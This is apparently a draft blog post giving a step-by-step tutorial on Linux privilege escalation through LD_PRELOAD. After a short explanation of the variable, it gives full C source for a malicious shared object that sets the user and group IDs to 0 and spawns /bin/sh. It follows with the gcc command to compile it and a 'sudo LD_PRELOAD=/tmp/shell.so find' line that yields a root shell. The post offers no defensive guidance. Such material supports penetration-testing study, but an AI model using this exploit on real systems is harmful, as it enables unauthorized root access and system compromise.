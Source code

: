 ```yaml
---
title: "LD PRELOAD"
description: 
date: 2025-01-24T13:21:32Z
image: 
math: 
license: 
hidden: false
comments: true
draft: true
---
```




## **Linux Privilege Escalation Using LD_PRELOAD**

**LD_PRELOAD** is an environment variable in Linux that allows users to load custom shared libraries before any other libraries during the execution of a program. Attackers can exploit this feature to inject malicious code and potentially escalate privileges, especially if the target program is executed with elevated permissions (e.g., as `root`).

## **How LD_PRELOAD Works**

1. **Purpose**: LD_PRELOAD is used for debugging or testing by overriding functions in shared libraries.
2. **Mechanism**: When a program is executed, the dynamic linker checks the LD_PRELOAD variable for a shared library path. If specified, this library is loaded before others, allowing its functions to override standard library functions.

## Privilege Escalation

  ![image alt text](post/ldpreload.png)

Let’s generate a C program file inside the `/tmp` directory.

![C Program File Example](https://1.bp.blogspot.com/-B9yPaw7TbHU/WyKXUU2u8iI/AAAAAAAAXXo/pyxfa1xrXn8Pr1il5ziHSB2ppZ2MQN2AACEwYBhgL/s1600/4.png)

```c
#include <stdio.h> 
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0); 
    setuid(0);

    system("/bin/sh"); 
}
```
Save it as `shell.c` inside **/tmp**.

![Compiling the Shell Program](https://3.bp.blogspot.com/-H4g6p2ggbfA/WyKXVJnFfCI/AAAAAAAAXYE/jtgOe57paVYSq5EPS7ddVbVRiOFsP3m8gCEwYBhgL/s1600/5.png)

Next, compile it to generate a shared object with a `.so` extension, similar to a `.dll` file in the Windows operating system. Enter the following command:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Check the generated file:

```shell
ls -al shell.so
```

Now execute the `find` command with `LD_PRELOAD` set to the path of the shared object:

```shell
sudo LD_PRELOAD=/tmp/shell.so find
```

To verify the privileges, run:

```shell
id
whoami
```
![](https://1.bp.blogspot.com/-SmdjE6lvzUI/WyKXVZ-5akI/AAAAAAAAXYM/ic2oN4QGsc4xmfyDUrwUMmWV0uL5bDntgCEwYBhgL/s1600/6.png)

And finally, you should have obtained root privileges! 😉


## Resources :
- https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
- https://www.youtube.com/watch?v=bzjnIi5u9OQ